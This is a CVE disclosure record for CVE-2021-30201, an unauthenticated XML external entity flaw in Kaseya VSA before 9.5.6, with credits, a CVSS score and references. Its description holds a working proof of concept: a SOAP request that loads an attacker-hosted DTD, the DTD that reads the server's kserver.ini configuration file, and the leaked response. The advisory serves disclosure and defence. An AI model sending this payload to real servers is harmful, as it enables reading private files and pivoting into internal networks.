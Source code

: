 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30201",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated XML External Entity vulnerability in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker.\n\nDetailed description\n\nGiven the following request:\n```\nPOST /vsaWS/KaseyaWS.asmx HTTP/1.1\nContent-Type: text/xml;charset=UTF-8\nHost: 192.168.1.194:18081\nContent-Length: 406\n \n<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:kas=\"KaseyaWS\">\n   <soapenv:Header/>\n   <soapenv:Body>\n      <kas:PrimitiveResetPassword>\n         <!--type: string-->\n         <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM \"http://192.168.1.170:8080/oob.dtd\"><data>&send;</data>]]>\n</kas:XmlRequest>\n      </kas:PrimitiveResetPassword>\n   </soapenv:Body>\n</soapenv:Envelope>\n```\n \nAnd the following XML file hosted at http://192.168.1.170/oob.dtd:\n```\n<!ENTITY % file SYSTEM \"file://c:\\\\kaseya\\\\kserver\\\\kserver.ini\">\n<!ENTITY % eval \"<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>\">\n%eval;\n%error;\n```\n\nThe server will fetch this XML file and process it, it will read the file  c:\\\\kaseya\\\\kserver\\\\kserver.ini and returns the content in the server response like below.\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/xml; charset=utf-8\nDate: Fri, 02 Apr 2021 10:07:38 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 2677\n \n<?xml version=\"1.0\" encoding=\"utf-8\"?><soap:Envelope xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\\r\\n\\r\\nSystem.Xml.XmlException: Fragment identifier '########################################################################\n# This is the configuration file for the KServer.\n# Place it in the same directory as the KServer executable\n# A blank line or new valid section header [] terminates each section.\n# Comment lines start with ; or #\n########################################################################\n<snip>\n```\n\nSecurity issues discovered\n---\n* The API insecurely resolves external XML entities\n* The API has an overly verbose error response\n\nImpact\n---\nUsing this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.\n\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "NONE",
            "baseScore": 7.5,
            "baseSeverity": "HIGH",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "NONE",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-611 Improper Restriction of XML External Entity Reference ('XXE')"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30201",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30201"
            }
        ]
    },
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


